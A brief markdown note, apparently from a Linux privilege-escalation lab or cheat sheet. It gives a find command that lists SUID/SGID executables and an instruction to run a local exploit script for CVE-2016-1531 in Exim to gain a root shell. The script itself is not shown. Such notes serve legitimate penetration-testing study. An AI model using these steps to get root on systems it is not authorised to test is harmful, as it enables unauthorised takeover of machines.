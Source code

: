 # SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`
